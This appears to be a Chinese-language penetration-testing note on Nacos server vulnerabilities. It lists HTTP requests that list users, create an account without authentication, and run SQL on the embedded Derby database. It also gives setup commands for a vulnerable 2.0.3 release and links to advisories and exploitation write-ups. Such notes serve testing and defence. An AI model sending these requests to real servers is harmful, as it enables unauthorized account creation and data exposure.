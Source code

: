 ### 查看用户
```
GET /nacos/v1/auth/users?pageNo=1&pageSize=100
```

### 创建用户
```
POST /nacos/v1/auth/users?username=test&password=test123
```

### unauth
```
/nacos/v1/cs/ops/derby?sql=select+st.tablename+from+sys.systables+st
```

> These endpoints are only valid when using embedded storage (derby DB) so this issue should not affect those installations using external storage (e.g. mysql)

- https://securitylab.github.com/advisories/GHSL-2020-325_326-nacos/
- https://www.cnblogs.com/hack404/p/14697313.html



## 安装
https://github.com/alibaba/nacos/releases/download/2.0.3/nacos-server-2.0.3.zip
```
unzip -q nacos-server-2.0.3.zip
bin/startup.sh -m standalone
```

![image](https://user-images.githubusercontent.com/30398606/173304250-3c57144d-6b7b-4291-bc31-473c07cf504b.png)


## 参考
- [Nacos结合Spring Cloud Gateway RCE利用](https://xz.aliyun.com/t/11493)
- [Nacos Client Yaml反序列化漏洞分析](https://xz.aliyun.com/t/10355)
- https://github.com/google/tsunami-security-scanner-plugins/issues/118
- https://github.com/google/tsunami-security-scanner-plugins/issues/119
- [云原⽣组件Nacos新型红队手法研究](https://mp.weixin.qq.com/s/Jwwd5ailKNhwR57ACXB1kQ)
